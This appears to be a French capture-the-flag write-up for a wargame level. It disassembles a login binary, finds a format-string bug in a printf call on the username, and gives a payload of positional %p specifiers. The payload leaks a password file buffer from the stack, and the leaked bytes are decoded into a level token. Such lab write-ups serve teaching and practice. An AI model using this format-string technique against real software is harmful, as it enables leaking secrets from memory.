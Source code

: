 # Analyse

## Binaire

`./level02`
```
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username:
```
`test`
```
--[ Password:
```
`test`
```
*****************************************
test does not have access!
```
## Gdb

`info function`
```asm
[...]
  0x0000000000400814  main
[...]
```


`disas main`
```asm
Dump of assembler code for function main:
   0x0000000000400814 <+0>:	push   rbp
   0x0000000000400815 <+1>:	mov    rbp,rsp
   0x0000000000400818 <+4>:	sub    rsp,0x120                      ; 120 octets pout la stack
   0x000000000040081f <+11>:	mov    DWORD PTR [rbp-0x114],edi      ; argc
   0x0000000000400825 <+17>:	mov    QWORD PTR [rbp-0x120],rsi      ; argv
   0x000000000040082c <+24>:	lea    rdx,[rbp-0x70]                 ; buffer_a  @ rbp - 0x70
   0x0000000000400830 <+28>:	mov    eax,0x0
   0x0000000000400835 <+33>:	mov    ecx,0xc
   0x000000000040083a <+38>:	mov    rdi,rdx
   0x000000000040083d <+41>:	rep stos QWORD PTR es:[rdi],rax       ; memset(buffer_a, 0, 12);
   0x0000000000400840 <+44>:	mov    rdx,rdi
   0x0000000000400843 <+47>:	mov    DWORD PTR [rdx],eax
   0x0000000000400845 <+49>:	add    rdx,0x4
   0x0000000000400849 <+53>:	lea    rdx,[rbp-0xa0]                 ; buffer_b  @ rbp - 0xa0
   0x0000000000400850 <+60>:	mov    eax,0x0
   0x0000000000400855 <+65>:	mov    ecx,0x5
   0x000000000040085a <+70>:	mov    rdi,rdx
   0x000000000040085d <+73>:	rep stos QWORD PTR es:[rdi],rax       ; memset(buffer_b, 0, 5);
   0x0000000000400860 <+76>:	mov    rdx,rdi
   0x0000000000400863 <+79>:	mov    BYTE PTR [rdx],al
   0x0000000000400865 <+81>:	add    rdx,0x1
   0x0000000000400869 <+85>:	lea    rdx,[rbp-0x110]                ; buffer_c  @ rbp - 0x110
   0x0000000000400870 <+92>:	mov    eax,0x0
   0x0000000000400875 <+97>:	mov    ecx,0xc
   0x000000000040087a <+102>:	mov    rdi,rdx
   0x000000000040087d <+105>:	rep stos QWORD PTR es:[rdi],rax       ; memset(buffer_c, 0, 12);
   0x0000000000400880 <+108>:	mov    rdx,rdi
   0x0000000000400883 <+111>:	mov    DWORD PTR [rdx],eax
   0x0000000000400885 <+113>:	add    rdx,0x4
   0x0000000000400889 <+117>:	mov    QWORD PTR [rbp-0x8],0x0
   0x0000000000400891 <+125>:	mov    DWORD PTR [rbp-0xc],0x0
   0x0000000000400898 <+132>:	mov    edx,0x400bb0
   0x000000000040089d <+137>:	mov    eax,0x400bb2
   0x00000000004008a2 <+142>:	mov    rsi,rdx
   0x00000000004008a5 <+145>:	mov    rdi,rax
   0x00000000004008a8 <+148>:	call   0x400700 <fopen@plt>           ; fd = fopen("/home/users/level03/.pass", "r");
   0x00000000004008ad <+153>:	mov    QWORD PTR [rbp-0x8],rax
   0x00000000004008b1 <+157>:	cmp    QWORD PTR [rbp-0x8],0x0
   0x00000000004008b6 <+162>:	jne    0x4008e6 <main+210>            ; if fd != 0:  jump à <+210>
   0x00000000004008b8 <+164>:	mov    rax,QWORD PTR [rip+0x200991]        # 0x601250 <stderr@@GLIBC_2.2.5>
   0x00000000004008bf <+171>:	mov    rdx,rax
   0x00000000004008c2 <+174>:	mov    eax,0x400bd0
   0x00000000004008c7 <+179>:	mov    rcx,rdx
   0x00000000004008ca <+182>:	mov    edx,0x24
   0x00000000004008cf <+187>:	mov    esi,0x1
   0x00000000004008d4 <+192>:	mov    rdi,rax
   0x00000000004008d7 <+195>:	call   0x400720 <fwrite@plt>          ; fwrite("ERROR: failed to open password file\n", 1, 36, stderr);
   0x00000000004008dc <+200>:	mov    edi,0x1
   0x00000000004008e1 <+205>:	call   0x400710 <exit@plt>            ; exit(1);
   0x00000000004008e6 <+210>:	lea    rax,[rbp-0xa0]
   0x00000000004008ed <+217>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x00000000004008f1 <+221>:	mov    rcx,rdx
   0x00000000004008f4 <+224>:	mov    edx,0x29
   0x00000000004008f9 <+229>:	mov    esi,0x1
   0x00000000004008fe <+234>:	mov    rdi,rax
   0x0000000000400901 <+237>:	call   0x400690 <fread@plt>           ; b_size = fread(buffer_b, 1, 41, fd);
   0x0000000000400906 <+242>:	mov    DWORD PTR [rbp-0xc],eax
   0x0000000000400909 <+245>:	lea    rax,[rbp-0xa0]
   0x0000000000400910 <+252>:	mov    esi,0x400bf5
   0x0000000000400915 <+257>:	mov    rdi,rax
   0x0000000000400918 <+260>:	call   0x4006d0 <strcspn@plt>         ; index = strcspn(buffer_b, "\n);
   0x000000000040091d <+265>:	mov    BYTE PTR [rbp+rax*1-0xa0],0x0  ; buffer_b[index] = 0;
   0x0000000000400925 <+273>:	cmp    DWORD PTR [rbp-0xc],0x29
   0x0000000000400929 <+277>:	je     0x40097d <main+361>            ; if b_size == 41:  jump à <+361>
   0x000000000040092b <+279>:	mov    rax,QWORD PTR [rip+0x20091e]        # 0x601250 <stderr@@GLIBC_2.2.5>
   0x0000000000400932 <+286>:	mov    rdx,rax
   0x0000000000400935 <+289>:	mov    eax,0x400bf8
   0x000000000040093a <+294>:	mov    rcx,rdx
   0x000000000040093d <+297>:	mov    edx,0x24
   0x0000000000400942 <+302>:	mov    esi,0x1
   0x0000000000400947 <+307>:	mov    rdi,rax
   0x000000000040094a <+310>:	call   0x400720 <fwrite@plt>          ; fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
   0x000000000040094f <+315>:	mov    rax,QWORD PTR [rip+0x2008fa]        # 0x601250 <stderr@@GLIBC_2.2.5>
   0x0000000000400956 <+322>:	mov    rdx,rax
   0x0000000000400959 <+325>:	mov    eax,0x400bf8
   0x000000000040095e <+330>:	mov    rcx,rdx
   0x0000000000400961 <+333>:	mov    edx,0x24
   0x0000000000400966 <+338>:	mov    esi,0x1
   0x000000000040096b <+343>:	mov    rdi,rax
   0x000000000040096e <+346>:	call   0x400720 <fwrite@plt>          ; fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
   0x0000000000400973 <+351>:	mov    edi,0x1
   0x0000000000400978 <+356>:	call   0x400710 <exit@plt>            ; exit(1);
   0x000000000040097d <+361>:	mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000400981 <+365>:	mov    rdi,rax
   0x0000000000400984 <+368>:	call   0x4006a0 <fclose@plt>          ; fclose(fd);
   0x0000000000400989 <+373>:	mov    edi,0x400c20
   0x000000000040098e <+378>:	call   0x400680 <puts@plt>            ; puts("===== [ Secure Access System v1.0 ] =====");
   0x0000000000400993 <+383>:	mov    edi,0x400c50
   0x0000000000400998 <+388>:	call   0x400680 <puts@plt>            ; puts("/***************************************\\");
   0x000000000040099d <+393>:	mov    edi,0x400c80
   0x00000000004009a2 <+398>:	call   0x400680 <puts@plt>            ; puts("| You must login to access this system. |");
   0x00000000004009a7 <+403>:	mov    edi,0x400cb0
   0x00000000004009ac <+408>:	call   0x400680 <puts@plt>            ; puts("\\**************************************/");
   0x00000000004009b1 <+413>:	mov    eax,0x400cd9
   0x00000000004009b6 <+418>:	mov    rdi,rax
   0x00000000004009b9 <+421>:	mov    eax,0x0
   0x00000000004009be <+426>:	call   0x4006c0 <printf@plt>          ; printf("--[ Username: ");
   0x00000000004009c3 <+431>:	mov    rax,QWORD PTR [rip+0x20087e]        # 0x601248 <stdin@@GLIBC_2.2.5>
   0x00000000004009ca <+438>:	mov    rdx,rax
   0x00000000004009cd <+441>:	lea    rax,[rbp-0x70]
   0x00000000004009d1 <+445>:	mov    esi,0x64
   0x00000000004009d6 <+450>:	mov    rdi,rax
   0x00000000004009d9 <+453>:	call   0x4006f0 <fgets@plt>           ; fgets(buffer_a, 100, stdin);
   0x00000000004009de <+458>:	lea    rax,[rbp-0x70]
   0x00000000004009e2 <+462>:	mov    esi,0x400bf5
   0x00000000004009e7 <+467>:	mov    rdi,rax
   0x00000000004009ea <+470>:	call   0x4006d0 <strcspn@plt>         ; index = strcspn(buffer_a, "\n");
   0x00000000004009ef <+475>:	mov    BYTE PTR [rbp+rax*1-0x70],0x0  ; buffer_a[index] = 0;
   0x00000000004009f4 <+480>:	mov    eax,0x400ce8
   0x00000000004009f9 <+485>:	mov    rdi,rax
   0x00000000004009fc <+488>:	mov    eax,0x0
   0x0000000000400a01 <+493>:	call   0x4006c0 <printf@plt>          ; printf("--[ Password: ");
   0x0000000000400a06 <+498>:	mov    rax,QWORD PTR [rip+0x20083b]        # 0x601248 <stdin@@GLIBC_2.2.5>
   0x0000000000400a0d <+505>:	mov    rdx,rax
   0x0000000000400a10 <+508>:	lea    rax,[rbp-0x110]
   0x0000000000400a17 <+515>:	mov    esi,0x64
   0x0000000000400a1c <+520>:	mov    rdi,rax
   0x0000000000400a1f <+523>:	call   0x4006f0 <fgets@plt>           ; fgets(buffer_c, 100, stdin);
   0x0000000000400a24 <+528>:	lea    rax,[rbp-0x110]
   0x0000000000400a2b <+535>:	mov    esi,0x400bf5
   0x0000000000400a30 <+540>:	mov    rdi,rax
   0x0000000000400a33 <+543>:	call   0x4006d0 <strcspn@plt>         ; index = strcspn(buffer_c, "\n");
   0x0000000000400a38 <+548>:	mov    BYTE PTR [rbp+rax*1-0x110],0x0 ; buffer_c[index] = 0;
   0x0000000000400a40 <+556>:	mov    edi,0x400cf8
   0x0000000000400a45 <+561>:	call   0x400680 <puts@plt>            ; puts("*****************************************");
   0x0000000000400a4a <+566>:	lea    rcx,[rbp-0x110]
   0x0000000000400a51 <+573>:	lea    rax,[rbp-0xa0]
   0x0000000000400a58 <+580>:	mov    edx,0x29
   0x0000000000400a5d <+585>:	mov    rsi,rcx
   0x0000000000400a60 <+588>:	mov    rdi,rax
   0x0000000000400a63 <+591>:	call   0x400670 <strncmp@plt>
   0x0000000000400a68 <+596>:	test   eax,eax
   0x0000000000400a6a <+598>:	jne    0x400a96 <main+642>            ; if strncmp(buffer_b, buffer_c, 41) != 0:  jump <+642>
   0x0000000000400a6c <+600>:	mov    eax,0x400d22
   0x0000000000400a71 <+605>:	lea    rdx,[rbp-0x70]
   0x0000000000400a75 <+609>:	mov    rsi,rdx
   0x0000000000400a78 <+612>:	mov    rdi,rax
   0x0000000000400a7b <+615>:	mov    eax,0x0
   0x0000000000400a80 <+620>:	call   0x4006c0 <printf@plt>          ; printf("Greetings, %s!\n", buffer_a);
   0x0000000000400a85 <+625>:	mov    edi,0x400d32
   0x0000000000400a8a <+630>:	call   0x4006b0 <system@plt>          ; system("/bin/sh");
   0x0000000000400a8f <+635>:	mov    eax,0x0
   0x0000000000400a94 <+640>:	leave
   0x0000000000400a95 <+641>:	ret                                   ; return(0);
   0x0000000000400a96 <+642>:	lea    rax,[rbp-0x70]                 ; jump from <+598>
   0x0000000000400a9a <+646>:	mov    rdi,rax
   0x0000000000400a9d <+649>:	mov    eax,0x0
   0x0000000000400aa2 <+654>:	call   0x4006c0 <printf@plt>          ; printf(buffer_a);
   0x0000000000400aa7 <+659>:	mov    edi,0x400d3a
   0x0000000000400aac <+664>:	call   0x400680 <puts@plt>            ; puts(" does not have access!");
   0x0000000000400ab1 <+669>:	mov    edi,0x1
   0x0000000000400ab6 <+674>:	call   0x400710 <exit@plt>            ; exit(1);
End of assembler dump.
```
C'est un binaire 64bits, donc la 'calling convention' est différente d'un binaire 32 bits: on passe les arguments par les registres et non par la stack. (cf. "A.2.1 Calling Conventions", p.123 de la [documentation](https://refspecs.linuxfoundation.org/elf/x86_64-abi-0.99.pdf)).
# Exploit

Le programme attend en input un nom d'utilisateur et un mot de passe, compare le mot de passe avec le contenu du fichier .pass et nous ouvre un shell s'ils sont égaux. Dommage, en passant par gdb on n'a pas les droits pour ouvrir le fichier .pass donc on n'atteint pas la condition.

Par contre, printf à <+654> est vulnérable à un [exploit format string](https://axcheron.github.io/exploit-101-format-strings/) puisqu'il prend uniquement en paramètre le username que nous contrôlons.
On devrait pouvoir afficher ainsi le contenu du fichier .pass qui se trouve sur la stack.
Puisque c'est un binaire 64bits, printf va lire les arguments sur la stack tous les 8 octets et nous savons que le token fait 40 caractères.
Nous allons donc devoir afficher 40 / 8 = 5 paramètres consécutifs à printf pour obtenir notre token complet, reste à savoir à partir de combien de paramètres !

- La stack fait 0x120 = 288 octets
- Le buffer qui nous intéresse se situe à rbp - 0xa0 (160) = rsp + 128
- On devrait tomber sur la zone de la stack qui nous intéresse au 16ème argument (128 / 8)
- Cependant, selon la documentation mentionnée plus haut
  > User-level applications use as integer registers for passing the sequence %rdi, %rsi, %rdx, %rcx, %r8 and %r9
  - printf va donc d'abord chercher ses arguments parmi ces registres avant d'aller les chercher sur la stack !

Notre token devrait donc être affiché par printf à partir du 22ème argument (128 / 8 + les 6 registres)

`./level02`
```
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %22$p%23$p%24$p%25$p%26$p
--[ Password:
*****************************************
0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d does not have access!
```

Pour finalement décoder notre pass, il faut décoder chaque adresse en ascii et la reverse à cause du boutisme (endianness, [oui oui on dit boutisme en français](https://fr.wikipedia.org/wiki/Boutisme) 😂).

`python`
- `str = "0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d"`
- `''.join([addr.decode('hex')[::-1] for addr in str.split("0x")])`
  ```
  Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
  ```
